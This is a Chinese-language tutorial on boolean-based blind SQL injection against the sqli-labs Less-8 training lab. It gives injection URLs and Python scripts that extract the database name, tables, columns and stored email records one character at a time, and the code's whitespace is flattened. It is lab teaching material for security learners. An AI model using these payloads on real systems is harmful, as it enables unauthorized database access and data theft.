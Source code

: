 http://www.jb51.net/article/93445.htm

**基于布尔的盲注**

Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。

由于本次是布尔注入，手注无法完整地进行脱裤。所以在本节需要编写大量的代码来帮助我们进行SQL注入，得到数据。所以在这章里面会有很多的Python代码。

本次的示例就是Less-8。

通过进行下面的语句的注入测试

```
http://localhost/sqlilabs/Less-8/?id=2'
http://localhost/sqlilabs/Less-8/?id=2"
http://localhost/sqlilabs/Less-8/?id=2\
```

进行测试的时候，只有在`id=2'`的时候页面无法显示内容。输入的语句如果符合要求，页面就会显示内容，但是显示的内容都是一样的。这种情况下页面上的输出对于我们来说是完全没有用的，包括SQL执行出错的信息都不会在页面上显示。这种情况下之前的通过执行SQL语句然后在页面上显示SQL执行之后返回的信息完全是不可能的啦。这种情况下就是一个典型的SQL盲注了。

我们通过页面是否显示内容来判断我们的SQL语句是否正确，进而猜解数据库的信息。  


通过上面的注入测试，我们知道后台的SQL的注入语句的写法是:

```
select field from table where id='userinput'
```

id参数是被单引号包括的。其他的信息我们就无法得到了。

**得到数据库的名称**

在得到数据库的名称之前，首先需要得到数据库的长度

[?](http://www.jb51.net/article/93445.htm#)

| 1234 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and length(database())>1 %23`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'andlength(database())>2 %23以此类推.....` |
| :--- | :--- |


发现当值为8的时候，页面就没有显示。那么说明`database()`的长度是8。  


得到了`datbase()`的长度之后，接下来就是得到`database()`的名称了。

这个时候就不能完全靠手注了，必须编写Python代码来完成。其中最主要就是进行大量的注入测试来判断程序执行正确和出错的时机，然后断定当前的值可能就是正确的值。  


下面就是一个简单的使用Python来进行布尔盲注获取数据的代码。

[?](http://www.jb51.net/article/93445.htm#)

| 123456789101112131415 | `defget_db_name():result=""url_template="`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and ascii(substr(database(),{0},1))>{1} %23"chars='0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'foriinrange(1,9):forcharinchars:char_ascii=ord(char)url=url_template.format(i,char_ascii)response=requests.get(url)length=len(response.text)#返回的长度只有706和722iflength>706:result+=charbreakprint(result)` |
| :--- | :--- |


得到最后的结果的是security，是正确的。

**得到数据库中的表信息**

其实所有的SQL注入步骤都是类似的。首先得到数据库的名称\(这一步不是必须的\)，然后得到当前数据库的表名称，然后得到表的字段，最后进行脱裤。这个步骤在[前一章](http://www.jb51.net/article/93442.htm)已经有说明了。  


首先看一个简单的SQL盲注获取数据库表信息的写法。

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'andascii(substr((selecttable_namefrominformation_schema.tableswheretable_schema=database() limit 0,1),1,1))>60 %23` |
| :--- | :--- |


其实还是使用之前的`select table_name from information_schema.tables where table_schema=database() limit 0,1`这样的语句来得到表的信息，但是现在是无法在页面上显示的，而是通过盲注来一个字符一个字符的获取表名。  


接下也同样是通过编写Python代码来获取表名了。代码也和上面的类似。主要就是修改中的URl。在进行Python获取表名之前，我们同样需要知道表名的长度。

使用如下的语句就可以得到了。  


获取表名的SQL注入的写法就是如下

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'and(selectlength(table_name)frominformation_schema.tableswheretable_schema=database() limit 0,1)>0 %23` |
| :--- | :--- |


通过这种方式我们知道数据库表中的第一个表名的长度是6。知道了表名的长度之后，接下来的Python脚本就很好写了。

[?](http://www.jb51.net/article/93445.htm#)

| 123456789101112131415 | `defget_table_name():result=""url_template="`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),{0},1))>{1} %23"chars='0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'foriinrange(1,7):forcharinchars:char_ascii=ord(char)url=url_template.format(i,char_ascii)response=requests.get(url)length=len(response.text)#返回的长度只有706和722iflength>706:result+=charbreakprint(result)` |
| :--- | :--- |


最后得到了第一个表名是emails,如果要得到其他的表名只需要将代码`limit 0,1`修改成为`limit 1,1`或者是其他的就可以了。

**得到表名的列信息**

在得到列名之前，同样需要知道在表中的字段长度。例如我们想要知道在emails表中的长度，那么就可以使用如下的语句来获取。

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'and(selectlength(column_name)frominformation_schema.columnswheretable_name=0x656d61696c73 limit 0,1)>【num】 %23` |
| :--- | :--- |


修改num的值即可，从0开始一直到到程序出错。通过这种方法，我们得到在emails中存在2个字段，字段的长度分别是2，8。  
得到了字段长度之后，接下来就是进行布尔注入得到字段名称了。  


在编写代码之前，还是来看如何写获取字段名称的sql语句吧。下面这个代码就是用来获取字段名称的代码。

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'andascii(substr((selectcolumn_namefrominformation_schema.columnswheretable_name=0x656d61696c73 limit 0,1),1,1))>60 %23` |
| :--- | :--- |


我们编写的Python代码也是利用上面这个代码来获取字段名称。

[?](http://www.jb51.net/article/93445.htm#)

| 123456789101112131415 | `defget_column_name():result=""url_template="`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and ascii(substr((select column_name from information_schema.columns where table_name=0x656d61696c73 limit 0,1),{0},1))>{1} %23"chars='0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz'foriinrange(1,3):forcharinchars:char_ascii=ord(char)url=url_template.format(i,char_ascii)response=requests.get(url)length=len(response.text)#返回的长度只有706和722iflength>706:result+=charbreakprint(result)` |
| :--- | :--- |


通过上面这个代码，我们可以得到在emails表中存在的字段名称分别是`id`和`email_id`

**脱裤**

在得到了字段名称之后，接下来最重要的一步就是进行脱裤了。  
在进行脱裤之前，我们首先判断在emails表中有多少条记录。

使用的语句如下：

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'and(selectcount(*)fromemails)>0 %23` |
| :--- | :--- |


修改&gt;0中的0依次为1，2，3之后，我们得到在emails表中一共存在8条记录。  


那么接下来就是进行脱裤了。  


在脱裤之前，我们首先要知道当前记录的长度，这个SQL语句也很好写。

[?](http://www.jb51.net/article/93445.htm#)

| 1 | [`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`'and(selectlength(email_id)fromemails limit 0,1)>15 %23` |
| :--- | :--- |


最后我们知道在emails表中的第一条记录中的`email_id`的长度是16.  


知道了长度之后，代码就很好写了。

[?](http://www.jb51.net/article/93445.htm#)

| 123456789101112131415 | `defget_data():result=""url_template="`[`http://localhost/sqlilabs/Less-8/?id=2`](http://localhost/sqlilabs/Less-8/?id=2)`' and ascii(substr((select email_id from emails limit 0,1),{0},1))>{1} %23"chars='.0123456789@ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz'foriinrange(1,17):forcharinchars:char_ascii=ord(char)url=url_template.format(i,char_ascii)response=requests.get(url)length=len(response.text)#返回的长度只有706和722iflength>706:result+=charbreakprint(result)` |
| :--- | :--- |


通过上面的这段代码就得到了内容是Dumb@dhakkan.com,其他的内容就同样通过这段方式得到数据了。这里就不作演示了。

**总结**

其实基于布尔盲注和基于时间的盲注都是需要编写大量的代码，就像本篇的文章一样。之前在简单的SQL注入中，一句SQL注入代码就可以解决的问题在这里就需要编写Python代码来进行大量的注入测试才能够得到内容。其实之前我也很少完整的用Python来编写SQL注入代码完成整个布尔盲注的注入过程。通过本章的编写，熟悉了使用Python代码完整地进行一次布尔盲注的过程了，学习了很多。以上就是这篇文章的全部内容了，希望对大家能有所帮助。

